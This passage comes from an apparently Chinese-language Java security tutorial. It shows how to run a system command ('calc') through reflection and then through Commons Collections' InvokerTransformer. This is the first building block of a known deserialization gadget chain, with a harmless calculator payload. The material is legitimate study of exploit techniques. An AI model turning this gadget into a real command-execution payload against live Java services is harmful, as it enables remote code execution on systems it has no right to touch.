 ![9](/img/JavaSecurity/7725e744c098d58ee899566abacd30c0_MD5.png)

我们来尝试构造一下，调用这个类的命令执行，首先我们回顾一下如何通过反射调用来执行命令

```java
public class Demo {  
    public static void main(String[] args)throws Exception {  
  
        Runtime r = Runtime.getRuntime();  
        Class c = r.getClass();  
        Method cMethod = c.getMethod("exec", String.class);  
        cMethod.invoke(r,"calc");  
    }  
}
```

接下来把他改写成利用InvokerTransformer类弹计数器。由于是public方法故无需反射

```java
public class Demo {  
    public static void main(String[] args)throws Exception {  
  
        Runtime r = Runtime.getRuntime();  
        InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});  
        invokerTransformer.transform(r);  
    }  
}

```

![10](/img/JavaSecurity/374aeafdb558f7ffff0dfcfa491579bd_MD5.png)
